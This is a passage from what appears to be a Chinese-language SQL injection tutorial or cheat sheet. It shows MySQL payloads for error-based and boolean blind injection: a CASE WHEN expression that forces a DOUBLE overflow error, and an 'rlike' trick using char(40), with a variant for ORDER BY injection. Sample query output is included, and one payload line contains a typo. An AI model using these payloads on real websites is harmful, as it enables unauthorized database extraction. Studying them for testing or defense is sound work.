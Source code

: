 # 0x01 测试



```html
// 正确的情况
// 会返回原来的数据页面保持不变
mysql> select * from tdb_goods where goods_id=1 and case when '12345'like'1%' then'1'else 2*1e308 end;
+----------+----------------------------+------------+------------+-------------+---------+------------+
| goods_id | goods_name                 | goods_cate | brand_name | goods_price | is_show | is_saleoff |
+----------+----------------------------+------------+------------+-------------+---------+------------+
|        1 | R510VC 15.6英寸笔记本       | 笔记本     | 华硕      |    3399.000 |       1 |          0 |
+----------+----------------------------+------------+------------+-------------+---------+------------+
1 row in set (0.00 sec)
```



```html
// 错误的情况
// 页面会爆错，如果关闭了错误提示，页面的数据会为空
mysql> select * from tdb_goods where goods_id=1 and case when '12345'like'66%' then'1'else 2*1e308 end;
ERROR 1690 - DOUBLE value is out of range in '(2 * 1e308)'
```

# 十、布尔盲注-rlike的妙用

# 0x00 概要

有的时候，你发现注入了

但是因为这个注入点的数据表没有数据 / 前面加了where条件导致返回的数据为空

但是又不能延时的时候可以使用该方法进行布尔注入

# 0x01 语法

```plain
// 正确的时候,界面无变化
select * from tttt where type=11 rlike (case when 1 like 1 then 1 else char(40) end)


// 错误的时候,界面会爆错/变的不同起来
select * from tttt where type=11 rlike (case hen 1 like 2 then 1 else char(40) end)
// 排序注入这样使用
select * from tttt ORDER BY 1-1 rlike (case when 1 like 1 then 1 else char(40) end)
```
